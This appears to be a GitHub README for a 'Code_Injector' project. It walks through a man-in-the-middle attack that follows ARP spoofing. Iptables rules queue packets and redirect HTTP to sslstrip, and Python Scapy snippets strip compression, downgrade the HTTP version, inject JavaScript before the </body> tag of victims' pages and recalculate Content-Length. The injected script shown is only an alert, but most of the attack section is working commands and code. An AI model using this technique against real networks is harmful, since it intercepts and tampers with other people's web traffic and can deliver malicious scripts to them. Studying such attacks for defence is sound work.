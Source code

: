 # Code_Injector

## Used Modules

###  netfilterqueue

NetfilterQueue provides access to packets matched by an iptables rule in Linux. Packets so matched can be accepted, dropped, altered, or given a mark. The iptables is the tool to access the linux netfilter firewall, the iptable rule we're gonna set to redirect the flow of packets to a queue to be analyzed

iptables -P FORWARD ACCEPT<br>
iptables -I INPUT -j NFQUEUE --queue-num 0<br>
iptables -I OUTPUT -j NFQUEUE --queue-num 0<br>

And then all packets that have the destination for the port 80(HTTP)
we're gonna to redirect to the port 10000 which is the sslstrip port(the tool SslStrip is used to bypass HTTPS websites). Remembering tha we can just do this because first we become the MITM using the file which is in the repository Arp_Spoof.

iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000<br>

### Scapy

The module Scapy is used to edit the packets from the queue because with the original format there is no way to edit (for more information go to the repository Arp_Spoof). First of all already the MITM i analyse all the requests and responses, because my iptable rule that i defined i redirected the request that want to go for the port 80 to the port 10000(SslStrip), with this i can see all the requests with the destination 10000.

```python
  if scapy_packet[scapy.TCP].dport == 10000:
```

And using regex rules to access the field "Accept-Encoding" i remove the encoding from the packet, this way is possible to see the information about the packet and change, the same way i replace the field with "HTTP/1.1" fro an earlier version to avoid problems. 
```python
   load = re.sub("Accept-Encoding:.*?\\r\\n", "", load)
   load = load.replace("HTTP/1.1" , "HTTP/1.0")
```

Therefore the problem when the target make the requests is done, now when the progam check a response from the server (originnaly the response would come with the source port 80 but now came from the port 10000 because of my SslStrip tool) it's gonna inject the code in the field "load" that contains the HTML and scripts from the page that the target requested. Looking for a tag </body> that all HTML pages have and replacing with a java script code. 
```python
elif scapy_packet[scapy.TCP].sport == 10000:
injection_code = "<script>alert('CODE INJECTOR SUCCSSESFULLY DONE')</script>"
load = load.replace("</body>", injection_code + "</body>")
```
Other importants details is change the length of the page because when a page is sent to someone it has a length and how it was changed because of the injecting code we have to change the verify if the load have the field content_length and recalculate the length adding the length of the injected code. 
```python
 content_length_search = re.search("(?:Content-Length:\s)(\d*)", load)
            if content_length_search and "text/html" in load:
                content_length = content_length_search.group(1)
                new_content_length = int(content_length) + len(injection_code)
                load = load.replace(content_length, str(new_content_length))
```
Lastly but not least how the format of the packet was change to a scapy packet we have to take the packet and turn into a orginal packet.
```python 
new_packet = set_load(scapy_packet, load)
packet.set_payload(str(new_packet))
```
This way the progam is runned on the bottom left side are the packets from the Arp_spoof being sent, on the top right side are the code_injector.py showing when requests ad responses are made, the other it's the sslstrip running.

<img src="termInjector.png">

And when i access some website on my target computer :-) ...

<img src="">



obs: to clean the iptables:

iptables --flush
iptables --table nat --flush
iptables --delete-chain
iptables --table nat --delete-chain
